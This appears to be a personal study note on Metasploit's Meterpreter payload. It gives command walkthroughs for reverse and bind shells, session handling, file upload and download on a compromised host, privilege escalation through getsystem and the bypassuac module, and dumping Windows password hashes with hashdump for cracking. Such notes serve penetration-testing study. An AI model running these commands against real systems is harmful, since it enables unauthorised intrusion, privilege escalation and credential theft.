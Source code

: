 
### General Notes

> A very powerful shell that can be used to attack machines and install [[Backdoors]].

---

## Usage inside [[Metasploit]] `msfconsole`

> It is a payload, so select it after setting the correct exploit.


#### Two Types of Payload

> Bind TCP: runs a server process on the target and waits for connection from attacker. `bind_tcp`
> Reverse TCP: performs a TCP connection back to the attacker machine. Helps evade [[Firewall]]s. `reverse_tcp`

---

### Sessions

> After setting the right payload, run the exploit to get a session.
> A meterpreter session is an advanced shell on a target machine.

> Multiple sessions can be hosted in one `msfconsole` host.
> To go back to the `msfconsole` from the meterpreter session:
```
background
```

> To list all the available sessions
```
sessions -l
```

> To resume a session
```
sessions -i <session-id>
```

---

### Exploitation

> Can perform multiple commands in the meterpeter session to get information about the target machine.
```
ifconfig
route
sysinfo
getuid
shell   //to run the standard os shell on the attacked machine.
...
```

>Can upload and download files
```
download <path-to-file-in-attacked> <destination-path-attacker>
upload <destination-path-attacker> <path-to-file-in-attacked>
```
> For window use `\`.
> For linux use `/`.

---

### Privilege Escalation

> To raise privileges using a Privilege Escalation routine provided by meterpreter.
```
getsystem
```
> *system* user is the highest privileges in windows machines.

> However, the User Account Control (UAC) policy prevents this from happening in modern windows machines.
> To do that, use the `bypassuac` exploit module in [[Metasploit]]. 
```
background  //background the current session.
use exploit/windows/local/bypassuac   //get the bypassuac exploit for windows
show options 
set session <meterpreter session>
```
> This opens a new meterpreter shell session that can use the `getsystem` command.

---

### Dumping Password Database

> Saving the password database and cracking it using [[John the Ripper]] for instance.
> Do that using the `hashdump` post-exploit module in [[Metasploit]].
```
background
use post/windows/gather/hashdump
show options
set session <meterpreter session>
exploit // dumps the hashes.
```

---

### Extra Commands

> Shells can be upgraded to meterpreter shells using the `mult/manage/shell_to_meterpreter` module.

> `/tmp` and `/var/tmp` are writeable.

---

